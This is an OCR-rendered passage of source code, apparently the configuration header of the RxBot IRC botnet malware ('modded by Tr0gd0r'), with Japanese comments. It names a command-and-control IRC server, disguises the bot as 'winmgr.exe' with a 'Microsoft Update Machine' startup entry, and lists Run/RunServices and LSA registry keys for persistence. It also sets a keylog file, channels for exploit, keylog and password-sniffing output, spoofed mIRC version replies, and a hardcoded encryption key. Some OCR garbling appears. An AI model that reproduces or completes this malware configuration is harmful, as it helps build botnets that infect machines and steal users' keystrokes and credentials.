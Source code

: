 int nicktype \= CONSTNICK;		// NICKNAMEの種類 (rndnick.hを参照)
BOOL nickprefix \= TRUE;			// NICKNAMEの接頭辞 (起動から経過した日数 & mIRC常駐者検索)

\#ifdef DEBUG_LOGGING			// テスト目的でログファイルにプロトコルをダンプできる
char logfile[]\="c:\\debug.txt";
\#endif

\#ifndef NO_CRYPT 			// 暗号化された文字列のみを使用するかバイナリが保護されないか!!

\#else  					// Crypt()セットアップの為これだけの使用を勧める(これは安全じゃない)

char botid[] \= "Tr0gBot";				// ボット名
char version[] \= "[RxBot v7.6 modded by Tr0gd0r]";	// ボートバージョン名
char password[] \= "";					// ボットネットに接続するパスワード
char server[] \= ""aenigma.gotd.org"";			// 接続先のIRCサーバ
char serverpass[] \= "";					// 	 パスワードが必要である場合
char channel[] \= "\#";					// 	 参加するチャンネル
char chanpass[] \= "";					//	 	パスワードが必要である場合
char server2[] \= "";					// 予備用	
char channel2[] \= "";					// 
char chanpass2[] \= "";					// 
char filename[] \= "winmgr.exe";				// コピー先のファイル名
char keylogfile[] \= "system.txt";			// キーログ用のフアイル名
char valuename[] \= "Microsoft Update Machine";		// スタートアップのエントリ名
char nickconst[] \= "n\-";				// ボット群ニックネーム先頭の部分
char szLocalPayloadFile[]\="msconfig.dat";		// ペイロードを送出したログ名
char modeonconn[] \= "\-x+B";			// /MODE 一つ以上のモードにできて+/\-の両方が含まれる
char exploitchan[] \= "\#n";			// REDIRECT \# EXPLOIT MESSAGE  \- CHANNEL
char keylogchan[] \=  "\#n"; 			// REDIRECT \# KEYLOG MESSAGE
char psniffchan[] \= "\#n";			// REDIRECT \# PSNIFF MESSAGE 

char *authost[] \= {				// 接続先チャンネルのオペレータ権限を認証(直接指定も出来る)
	"*@*",
};

char *versionlist[] \= {				// 作者でない誰かがバージョンを求めたときに応答
	"mIRC v6.03 Khaled Mardam\-Bey",		// mIRC開発者:Khaled Mardam\-Beyという名前
	"mIRC v6.10 Khaled Mardam\-Bey",
	"mIRC v6.12 Khaled Mardam\-Bey",
	"mIRC v6.14 Khaled Mardam\-Bey"
};

// レジストリエントリ：スタートアップ二種, セキュリティ二種
char regkey1[]\="Software\\Microsoft\\Windows\\CurrentVersion\\Run";
char regkey2[]\="Software\\Microsoft\\Windows\\CurrentVersion\\RunServices";
char regkey3[]\="Software\\Microsoft\\OLE";
char regkey4[]\="SYSTEM\\CurrentControlSet\\Control\\Lsa";

\#endif

\#ifdef PLAIN_CRYPT		  // Encrypted Password:暗号化パスワード(kerberos)
char key[16] \= "2poiwsfpf3213ew"; // CHANGE THIS!!! hmmm..Do I even need this now?
\#endif
\-\-\-\-\-

